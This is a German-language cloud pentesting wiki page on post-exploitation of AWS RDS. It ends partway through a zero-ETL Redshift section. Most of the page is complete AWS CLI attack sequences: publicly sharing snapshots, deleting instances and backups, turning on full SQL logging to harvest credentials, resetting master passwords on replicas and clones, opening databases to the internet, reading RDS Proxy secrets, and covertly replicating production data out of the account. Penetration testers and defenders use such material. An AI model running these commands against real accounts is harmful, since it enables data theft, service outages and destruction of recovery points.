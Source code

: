 # AWS - RDS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Wenn der Angreifer über ausreichend Berechtigungen verfügt, könnte er eine **DB öffentlich zugänglich machen**, indem er einen Snapshot der DB erstellt und anschließend eine öffentlich zugängliche DB aus dem Snapshot wiederherstellt.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:StopDBCluster` & `rds:StopDBInstance`
Ein Angreifer mit `rds:StopDBCluster` oder `rds:StopDBInstance` kann einen sofortigen Stopp einer RDS-Instanz oder eines gesamten Clusters erzwingen, was zu Nichtverfügbarkeit der Datenbank, unterbrochenen Verbindungen und zur Unterbrechung von Prozessen führt, die von der Datenbank abhängen.

Um eine einzelne DB-Instanz zu stoppen (Beispiel):
```bash
aws rds stop-db-instance \
--db-instance-identifier <DB_INSTANCE_IDENTIFIER>
```
Um einen gesamten DB-Cluster zu stoppen (Beispiel):
```bash
aws rds stop-db-cluster \
--db-cluster-identifier <DB_CLUSTER_IDENTIFIER>
```
### `rds:Delete*`

Ein Angreifer mit rds:Delete* kann RDS-Ressourcen entfernen — DB-Instanzen, Cluster, Snapshots, automatisierte Backups, Subnet-Gruppen, Parameter-/Optionsgruppen und verwandte Artefakte löschen — und dadurch sofortige Serviceausfälle, Datenverlust, Zerstörung von Wiederherstellungspunkten sowie Verlust forensischer Beweise verursachen.
```bash
# Delete a DB instance (creates a final snapshot unless you skip it)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--final-db-snapshot-identifier <FINAL_SNAPSHOT_ID>     # omit or replace with --skip-final-snapshot to avoid snapshot

# Delete a DB instance and skip final snapshot (more destructive)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--skip-final-snapshot

# Delete a manual DB snapshot
aws rds delete-db-snapshot \
--db-snapshot-identifier <DB_SNAPSHOT_ID>

# Delete an Aurora DB cluster (creates a final snapshot unless you skip)
aws rds delete-db-cluster \
--db-cluster-identifier <DB_CLUSTER_ID> \
--final-db-snapshot-identifier <FINAL_CLUSTER_SNAPSHOT_ID>   # or use --skip-final-snapshot
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ein Angreifer mit diesen Berechtigungen könnte **einen Snapshot einer DB erstellen** und ihn **öffentlich** **verfügbar** machen. Dann könnte er in seinem eigenen Account einfach eine DB aus diesem Snapshot erstellen.

Wenn der Angreifer **nicht die `rds:CreateDBSnapshot` hat**, könnte er trotzdem **andere** erstellte Snapshots **öffentlich** machen.
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

Ein Angreifer mit der Berechtigung `rds:DownloadDBLogFilePortion` kann **Teile der Logdateien einer RDS-Instance herunterladen**. Wenn sensible Daten oder Zugangsdaten versehentlich protokolliert werden, könnte der Angreifer diese Informationen nutzen, um seine Berechtigungen zu eskalieren oder unautorisierte Aktionen durchzuführen.
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Potentielle Auswirkungen**: Zugriff auf sensible Informationen oder unautorisierte Aktionen unter Verwendung von leaked credentials.

### `rds:DeleteDBInstance`

Ein Angreifer mit diesen Berechtigungen kann **DoS existing RDS instances**.
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Mögliche Auswirkungen**: Löschung vorhandener RDS-Instanzen und möglicher Datenverlust.

### `rds:StartExportTask`

> [!NOTE]
> TODO: Testen

Ein Angreifer mit dieser Berechtigung kann **einen Snapshot einer RDS-Instanz in einen S3-Bucket exportieren**. Wenn der Angreifer Kontrolle über den Ziel-S3-Bucket hat, kann er möglicherweise auf sensible Daten im exportierten Snapshot zugreifen.
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Potentielle Auswirkungen**: Zugriff auf sensible Daten im exportierten Snapshot.

### Cross-Region automatisierte Backups-Replikation für unauffällige Wiederherstellung (`rds:StartDBInstanceAutomatedBackupsReplication`)

Missbrauche die Cross-Region-Replikation automatisierter Backups, um die automatisierten Backups einer RDS-Instance stillschweigend in eine andere AWS-Region zu duplizieren und dort wiederherzustellen. Der Angreifer kann dann die wiederhergestellte DB öffentlich zugänglich machen und das Master-Passwort zurücksetzen, um außerhalb des normalen Zugriffs in einer Region auf Daten zuzugreifen, die Verteidiger möglicherweise nicht überwachen.

Benötigte Berechtigungen (mindestens):
- `rds:StartDBInstanceAutomatedBackupsReplication` in der Ziel-Region
- `rds:DescribeDBInstanceAutomatedBackups` in der Ziel-Region
- `rds:RestoreDBInstanceToPointInTime` in der Ziel-Region
- `rds:ModifyDBInstance` in der Ziel-Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optionale Bereinigung)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (um die wiederhergestellte DB öffentlich zugänglich zu machen)

Auswirkung: Persistenz und Datenexfiltration durch Wiederherstellen einer Kopie von Produktionsdaten in einer anderen Region und öffentliches Zugänglichmachen mit vom Angreifer kontrollierten Zugangsdaten.

<details>
<summary>End-to-end-CLI (Platzhalter ersetzen)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


### Vollständiges SQL-Logging über DB-Parametergruppen aktivieren und über RDS-Log-APIs exfiltrieren

Missbrauche `rds:ModifyDBParameterGroup` zusammen mit RDS-Log-Download-APIs, um alle von Anwendungen ausgeführten SQL-Anweisungen zu erfassen (keine DB-Engine-Zugangsdaten erforderlich). Aktiviere das SQL-Logging der Engine und lade die Logdateien über `rds:DescribeDBLogFiles` und `rds:DownloadDBLogFilePortion` herunter (oder über die REST-Funktion `downloadCompleteLogFile`). Nützlich, um Abfragen zu sammeln, die Secrets/PII/JWTs enthalten könnten.

Benötigte Berechtigungen (Minimum):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (nur um eine benutzerdefinierte Parametergruppe anzuhängen, falls die Instanz die Default-Gruppe verwendet)
- `rds:RebootDBInstance` (für Parameter, die einen Reboot erfordern, z. B. PostgreSQL)

Schritte
1) Recon target und aktuelle Parametergruppe
```bash
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
--output table
```
2) Stelle sicher, dass eine benutzerdefinierte DB-Parametergruppe angehängt ist (die Standardgruppe kann nicht bearbeitet werden)
- Wenn die Instanz bereits eine benutzerdefinierte Gruppe verwendet, verwende deren Namen im nächsten Schritt.
- Andernfalls erstelle und hänge eine passende zur Engine-Familie an:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
--db-parameter-group-name ht-logs-pg \
--db-parameter-group-family postgres16 \
--description "HT logging"

aws rds modify-db-instance \
--db-instance-identifier <DB> \
--db-parameter-group-name ht-logs-pg \
--apply-immediately
# Wait until status becomes "available"
```
3) Aktivieren Sie ausführliches SQL-Logging
- MySQL-Engines (sofort / kein Neustart):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
"ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
- PostgreSQL-Engines (Neustart erforderlich):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```
4) Lassen Sie die Workload laufen (oder erzeugen Sie Abfragen). Statements werden in die Engine-Datei-Logs geschrieben
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) Logs entdecken und herunterladen (keine DB-Zugangsdaten erforderlich)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
--db-instance-identifier <DB> \
--log-file-name general/mysql-general.log \
--starting-token 0 \
--output text > dump.log
```
6) Offline auf sensible Daten analysieren
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```
Beispielbeweismaterial (geschwärzt):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```
Bereinigung
- Parameter auf Standardwerte zurücksetzen und bei Bedarf neu starten:
```bash
# MySQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
Auswirkung: Post-exploitation-Datenzugriff durch Erfassen aller Anwendungs-SQL-Anweisungen via AWS APIs (no DB creds), potenziell leaking secrets, JWTs und PII.

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

Missbrauche RDS read replicas, um out-of-band Lesezugriff zu erhalten, ohne die primary instance credentials zu berühren. Ein Angreifer kann aus einer Produktionsinstanz eine read replica erstellen, das replica's master password zurücksetzen (dies ändert das primary nicht) und optional die Replica öffentlich exponieren, um Daten zu exfiltrieren.

Permissions needed (minimum):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

Auswirkung: Read-only Zugriff auf Produktionsdaten über eine Replica mit attacker-controlled credentials; geringere Wahrscheinlichkeit entdeckt zu werden, da das primary unberührt bleibt und replication weiterläuft.
```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
--output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
--db-instance-identifier <REPL_ID> \
--source-db-instance-identifier <SOURCE_DB> \
--db-instance-class db.t3.medium \
--publicly-accessible \
--vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
Beispielhafte Hinweise (MySQL):
- Status der Replica-DB: `available`, Read-Replikation: `replicating`
- Erfolgreiche Verbindung mit neuem Passwort und `@@read_only=1`, die den schreibgeschützten Replica-Zugriff bestätigt.

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

Missbrauche RDS Blue/Green, um eine Produktions-DB in eine kontinuierlich replizierte, schreibgeschützte Green-Umgebung zu klonen. Setze dann die Green master credentials zurück, um auf die Daten zuzugreifen, ohne die Blue (prod)-Instanz zu berühren. Dies ist unauffälliger als snapshot sharing und umgeht oft Monitoring, das nur auf die source fokussiert ist.
```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
--blue-green-deployment-name ht-bgd-attack \
--source <BLUE_DB_ARN> \
# Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
--blue-green-deployment-identifier <BGD_ID> \
--query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--master-user-password 'Gr33n!Exfil#1' \
--apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
--apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
--db-instance-identifier <GREEN_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
--blue-green-deployment-identifier <BGD_ID> \
--delete-target true
```
Auswirkung: Nur-Lese, aber vollständiger Datenzugriff auf eine nahezu Echtzeit-Kopie der Produktion, ohne die Produktionsinstanz zu verändern. Nützlich für verdeckte Datenausleitung und Offline-Analyse.


### Out-of-band SQL via RDS Data API by enabling HTTP endpoint + resetting master password

Missbrauche Aurora, um den RDS Data API HTTP-Endpoint auf einem Ziel-Cluster zu aktivieren, das Master-Passwort auf einen von dir kontrollierten Wert zurückzusetzen und SQL über HTTPS auszuführen (kein VPC-Netzwerkpfad erforderlich). Funktioniert bei Aurora-Engines, die Data API/EnableHttpEndpoint unterstützen (z. B. Aurora MySQL 8.0 provisioned; einige Aurora PostgreSQL/MySQL-Versionen).

Permissions (minimum):
- rds:DescribeDBClusters, rds:ModifyDBCluster (oder rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (und rds-data:BatchExecuteStatement falls verwendet)

Auswirkung: Bypass network segmentation und exfiltrate Daten über AWS APIs ohne direkte VPC-Konnektivität zur DB.

<details>
<summary>End-to-end-CLI (Aurora MySQL-Beispiel)</summary>
```bash
# 1) Identify target cluster ARN
REGION=us-east-1
CLUSTER_ID=<target-cluster-id>
CLUSTER_ARN=$(aws rds describe-db-clusters --region $REGION \
--db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].DBClusterArn' --output text)

# 2) Enable Data API HTTP endpoint on the cluster
# Either of the following (depending on API/engine support):
aws rds enable-http-endpoint --region $REGION --resource-arn "$CLUSTER_ARN"
# or
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--enable-http-endpoint --apply-immediately

# Wait until HttpEndpointEnabled is True
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].HttpEndpointEnabled' --output text

# 3) Reset master password to attacker-controlled value
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--master-user-password 'Sup3rStr0ng!1' --apply-immediately
# Wait until pending password change is applied
while :; do
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
P=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].PendingModifiedValues.MasterUserPassword' --output text)
[[ "$P" == "None" || "$P" == "null" ]] && break
sleep 10
done

# 4) Create a Secrets Manager secret for Data API auth
SECRET_ARN=$(aws secretsmanager create-secret --region $REGION --name rdsdata/demo-$CLUSTER_ID \
--secret-string '{"username":"admin","password":"Sup3rStr0ng!1"}' \
--query ARN --output text)

# 5) Prove out-of-band SQL via HTTPS using rds-data
# (Example with Aurora MySQL; for PostgreSQL, adjust SQL and username accordingly)
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database mysql --sql "create database if not exists demo;"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "create table if not exists pii(note text);"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "insert into pii(note) values ('token=SECRET_JWT');"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "select current_user(), now(), (select count(*) from pii) as row_count;" \
--format-records-as JSON
```
</details>

Hinweise:
- Wenn mehrteilige SQL-Anweisungen von rds-data abgelehnt werden, führe separate execute-statement-Aufrufe aus.
- Für Engines, bei denen modify-db-cluster --enable-http-endpoint keine Wirkung zeigt, verwende rds enable-http-endpoint --resource-arn.
- Stelle sicher, dass die Engine/Version tatsächlich die Data API unterstützt; andernfalls bleibt HttpEndpointEnabled auf False.


### DB-Zugangsdaten über RDS Proxy Auth-Secrets erlangen (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

Missbrauche die RDS Proxy-Konfiguration, um das für die Backend-Authentifizierung verwendete Secrets Manager secret zu finden, und lese dann das Secret aus, um Datenbank-Zugangsdaten zu erhalten. In vielen Umgebungen wird breit gefasstes `secretsmanager:GetSecretValue` gewährt, wodurch dies ein geringer Aufwand-Pivot zu DB-Zugangsdaten ist. Verwendet das Secret einen CMK, können fehlkonfigurierte KMS-Berechtigungen außerdem `kms:Decrypt` erlauben.

Erforderliche Berechtigungen (Minimum):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` auf dem referenzierten SecretArn
- Optional, wenn das Secret einen CMK verwendet: `kms:Decrypt` auf diesem Key

Auswirkung: Sofortige Offenlegung des auf dem Proxy konfigurierten DB-Benutzernamens/Passworts; ermöglicht direkten DB-Zugriff oder weitere lateral movement.

Schritte
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
--query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
--output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
--secret-id <SecretArnFromProxy> \
--query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```
Labor (minimal zur Reproduktion)
```bash
REGION=us-east-1
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SECRET_ARN=$(aws secretsmanager create-secret \
--region $REGION --name rds/proxy/aurora-demo \
--secret-string username:admin \
--query ARN --output text)
aws iam create-role --role-name rds-proxy-secret-role \
--assume-role-policy-document Version:2012-10-17
aws iam attach-role-policy --role-name rds-proxy-secret-role \
--policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws rds create-db-proxy --db-proxy-name p0 --engine-family MYSQL \
--auth [AuthScheme:SECRETS] \
--role-arn arn:aws:iam::$ACCOUNT_ID:role/rds-proxy-secret-role \
--vpc-subnet-ids $(aws ec2 describe-subnets --filters Name=default-for-az,Values=true --query Subnets[].SubnetId --output text)
aws rds wait db-proxy-available --db-proxy-name p0
# Now run the enumeration + secret read from the Steps above
```
Bereinigung (Lab)
```bash
aws rds delete-db-proxy --db-proxy-name p0
aws iam detach-role-policy --role-name rds-proxy-secret-role --policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws iam delete-role --role-name rds-proxy-secret-role
aws secretsmanager delete-secret --secret-id rds/proxy/aurora-demo --force-delete-without-recovery
```
### Stealthy continuous exfiltration via Aurora zero‑ETL to Amazon Redshift (rds:CreateIntegration)

Missbrauche Aurora PostgreSQL zero‑ETL-Integration, um Produktionsdaten kontinuierlich in einen Redshift Serverless Namespace zu replizieren, den du kontrollierst. Mit einer zu großzügigen Redshift-Ressourcenrichtlinie, die CreateInboundIntegration/AuthorizeInboundIntegration für eine bestimmte Aurora-Cluster-ARN autorisiert, kann ein Angreifer eine nahezu Echtzeit-Datenkopie herstellen, ohne DB creds, snapshots oder Netzwerkexposition.

Permissions needed (minimum):
- `rds:CreateIntegration`, `rds:DescribeIntegrations`, `rds:DeleteIntegration`
- `redshift:PutResourcePolicy`, `redshift:DescribeInboundIntegrations`, `redshift:DescribeIntegrations`
- `redshift-data:ExecuteStatement/GetStatementResult/ListDatabases` (to query)
- `rds-data:ExecuteStatement` (optional; to seed data if needed)

Tested on: us-east-1, Aurora PostgreSQL 16.4 (Serverless v2), Redshift Serverless.

<details>
<summary>1) Redshift Serverless namespace + workgroup erstellen</summary>
```bash
REGION=us-east-1
RS_NS_ARN=$(aws redshift-serverless create-namespace --region $REGION --namespace-name ztl-ns \
--admin-username adminuser --admin-user-password 'AdminPwd-1!' \
--query namespace.namespaceArn --output text)
RS_WG_ARN=$(aws redshift-serverless create-workgroup --region $REGION --workgroup-name ztl-wg \
--namespace-name ztl-ns --base-capacity 8 --publicly-accessible \
--query workgroup.workgroupArn --output text)
# Wait until AVAILABLE, then enable case sensitivity (required for PostgreSQL)
aws redshift-serverless update-workgroup --region $REGION --workgroup-name ztl-wg \
--config-parameters parameterKey=enable_case_sensitive_identifier,parameterValue=true
```
</details>

<details>
<summary>2) Konfiguriere die Redshift-Ressourcenrichtlinie, um die Aurora-Quelle zuzulassen</summary>
```bash
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SRC_ARN=<AURORA_CLUSTER_ARN>
cat > rs-rp.json <<JSON
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AuthorizeInboundByRedshiftService",
"Effect": "Allow",
"Principal": {"Service": "redshift.amazonaws.com"},
"Action": "redshift:AuthorizeInboundIntegration",
"Resource": "$RS_NS_ARN",
"Condition": {"StringEquals": {"aws:SourceArn": "$SRC_ARN"}}
},
{
"Sid": "AllowCreateInboundFromAccount",
"Effect": "Allow",
"Principal": {"AWS": "arn:aws:iam::$ACCOUNT_ID:root"},
"Action": "redshift:CreateInboundIntegration",
"Resource": "$RS_NS_ARN"
}
]
}
JSON
aws redshift put-resource-policy --region $REGION --resource-arn "$RS_NS_ARN" --policy file://rs-rp.json
```
</details>

<details>
<summary>3) Erstellen eines Aurora PostgreSQL-Clusters (Data API und logical replication aktivieren)</summary>
```bash
CLUSTER_ID=aurora-ztl
aws rds create-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--engine aurora-postgresql --engine-version 16.4 \
--master-username postgres --master-user-password 'InitPwd-1!' \
--enable-http-endpoint --no-deletion-protection --backup-retention-period 1
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
# Serverless v2 instance
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--serverless-v2-scaling-configuration MinCapacity=0.5,MaxCapacity=1 --apply-immediately
aws rds create-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1 \
--db-instance-class db.serverless --engine aurora-postgresql --db-cluster-identifier $CLUSTER_ID
